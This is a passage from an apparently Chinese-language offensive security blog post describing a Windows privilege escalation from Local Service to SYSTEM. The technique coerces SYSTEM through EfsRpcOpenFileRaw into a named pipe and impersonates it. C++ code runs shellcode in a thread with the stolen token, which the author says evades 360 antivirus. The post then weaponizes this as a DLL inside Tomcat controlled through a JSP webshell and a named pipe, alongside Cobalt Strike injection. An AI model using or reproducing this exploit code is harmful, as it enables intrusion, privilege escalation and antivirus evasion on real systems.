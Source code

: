 ```cpp
		wprintf(L"RpcExcetionCode: %d\n", RpcExceptionCode());
		return FALSE;
	}RpcEndExcept
```

每次调用EfsRpcOpenFileRaw都会触发SYSTEM进程连接命名管道，然后再通过ImpersonateNamedPipeClient模拟SYSTEM进程的权限执行代码，当ImpersonateNamedPipeClient函数调用成功后，当前线程的Token其实已经变成了SYSTEM账户的，特权代码执行完成后还可以用RevertToSelf恢复到原来的线程Token。

在我实现成功后遇到数字杀毒会拦截提权的行为，其实很多土豆提权成功后，会复制一份Token去创建进程，一般调用CreateProcessWithToken和CreateProcessAsUser比较多，被拦截的时候会是这样：

![](https://images.payloads.online/2022-08-11-22-08-11.png)

因此常规的办法是不行了，于是请教了头像哥，他的回复与我想的一样，用高权限的Token去跑一个特权线程，利用这个特权线程去执行Shellcode。

```cpp
void ExecuteShellCodeWithToken(HANDLE hToken) {
	HANDLE hThread = INVALID_HANDLE_VALUE;
	DWORD dwThreadId = 0;
	HANDLE hHeap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);
	PVOID Mptr = HeapAlloc(hHeap, 0, g_dwShellcodeSize);
	RtlCopyMemory(Mptr, g_ShellcodeBuffer, g_dwShellcodeSize);
	hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)Mptr, NULL, CREATE_SUSPENDED, &dwThreadId);
	SetThreadToken(&hThread, hToken);
	ResumeThread(hThread);
}
```

思路如下：

- 将Shellcode拷贝到可执行堆内存块中
- 创建一个暂停的线程
- 将特权Token设置覆盖掉暂停的线程Token
- 恢复线程执行

成功执行Shellcode后的样子是这样的：

![](https://images.payloads.online/2022-08-11-22-08-27.png)

上线的User是SYSTEM，但是whoami是Local Service，这是因为当前线程是SYSTEM的，获取用户名的GetUserName API是以当前线程Token作为权限查询的，而创建进程时并不会直接复制模拟的特权Token，这个时候只需要使用CobaltStrike的进程注入到其他SYSTEM进程即可。解决完Local Service提权到SYSTEM被数字杀毒拦截的问题后，那就要思考如何做武器化了，因为在实战中不可能上传一个个DLL文件，我需要把所有的代码写到一个DLL中，通过控制JSP Webshell的参数来达到各种功能的调用。

## 0x07 武器化的思路与实现

所有的代码跑在Tomcat的进程里的，而且只能执行DLLMain，那么怎么通过某种技术可以使得发送一个Web请求就执行DLL中的一些功能呢？

这个问题其实并没有难倒我，最简单的办法是用文件传递参数，每个Web请求过来后往文件中写内容，然后DLLMain里写一个循环读取也可以，但是文件的读写容易被干扰，并且涉及到线程的控制，稍微干扰一下就产生读写问题，容错率不高。

最终我采用了管道的形式，在DLLMain被执行时就创建一个命名管道，每个请求会连接管道往里写入16进制的单字节指令。

部分代码：

```cpp
for (;;) {
        if (ConnectNamedPipe(hPipe, NULL) > 0) {
            CHAR szBuffer[BUFF_SIZE];
            BYTE  bMethod; // 操作方法
            ZeroMemory(szBuffer, BUFF_SIZE);
            wprintf(L"[+] Client Connected...\n");
            // 读取操作方法
            ReadFile(hPipe, &bMethod, 1, &dwLen, NULL);
            switch (bMethod)
            {
            case METHOD_WMI_CREATE_PROCESS:
                /// <summary>
```
